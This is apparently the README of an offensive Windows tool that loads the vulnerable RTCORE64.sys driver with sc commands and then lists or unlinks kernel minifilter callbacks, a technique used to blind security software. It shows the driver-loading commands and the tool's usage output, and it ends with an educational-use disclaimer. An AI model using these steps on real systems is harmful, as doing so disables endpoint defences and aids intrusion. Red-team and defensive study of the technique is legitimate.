 ### Reference
https://github.com/alfarom256/MCP-PoC

## usage
Load and run the vulnerable Driver as administrator

<pre>
sc create VulnerableDriver binPath= C:\Users\Vixx\Desktop\RTCORE64.sys type= kernel
sc start VulnerableDriver
</pre>

Run the exe as administrator

<pre>
PS C:\Users\Vixx\Desktop\Tools\MiniFilterFileCallbackKernelBypass\x64\Release> .\MiniFilterFileCallbackernelBypass.exe
Usage: C:\Users\Vixx\Desktop\Tools\MiniFilterFileCallbackKernelBypass\x64\Release\MiniFilterFileCallbackernelBypass.exe
 /filtersshow <filtername> - List Filters or Major Function for a filter
 /filterlinks <filtername> - Remove Filters related to that driver
 /installDriver - Install the MSI driver
 /uninstallDriver - Uninstall the MSI driver
</pre>

Not Providing a filter, will output all filters to pick from.

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.
